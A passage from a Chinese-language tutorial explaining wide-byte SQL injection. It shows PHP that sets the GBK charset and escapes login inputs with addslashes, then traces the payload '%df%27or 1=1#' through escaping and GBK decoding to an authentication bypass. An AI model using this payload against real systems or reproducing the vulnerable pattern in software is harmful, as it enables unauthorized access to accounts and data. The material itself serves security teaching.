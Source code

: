 还是开头的例子，只不过加了点料。

```
$conn->query("set names 'gbk';");
$username = addslashes(@$_POST['username']);
$password = addslashes(@$_POST['password']);
```

`addslashes`函数将会把POST接收到的username与password的部分字符进行转义处理。如下：

- 字符`'、"、\`前边会被添加上一条反斜杠`\`作为转义字符。
- 多个空格被过滤成一个空格。

这使得我们原本的payload被转义成如下：

```
select * from users where username = 'admin\'#' and password='123';
```

注意：我们输入的单引号被转义掉了，此时SQL语句的功能是：查找用户名为`admin'#`且密码为123的用户。

但是我们注意到，在拼接SQL语句并与数据库进行通信之前，我们执行了这么一条语句：

```
$conn->query("set names 'gbk';");
```

其作用相当于：

```
mysql>SET character_set_client ='gbk';
mysql>SET character_set_results ='gbk';
mysql>SET character_set_connection ='gbk';
```

当我们输入的数据为：`username=%df%27or%201=1%23&password=123`

经过addslashes函数处理最终变成：`username=%df%5c%27or%201=1%23&password=123`

经过gbk解码得到：`username=運'or 1=1#`、`password=123`，拼接到SQL语句得：

```
select * from users where username = '運'or 1=1#' and password='123';
```

成功跳出了addslashes的转义限制。

#### 具体解释

前边提到：`set names 'gbk';`相当于执行了如下操作：

```
mysql>SET character_set_client ='gbk';
mysql>SET character_set_results ='gbk';
mysql>SET character_set_connection ='gbk';
```

那么此时在SQL语句在与数据库进行通信时，会先将SQL语句进行对应的`character_set_client`所设置的编码进行转码，本例是gbk编码。

由于PHP的编码为`UTF-8`，我们输入的内容为`%df%27`，会被当做是两个字符，其中`%27`为单引号`'`。

经过函数`addslashes`处理变成`%df%5c%27`，`%5c`为反斜线`\`。

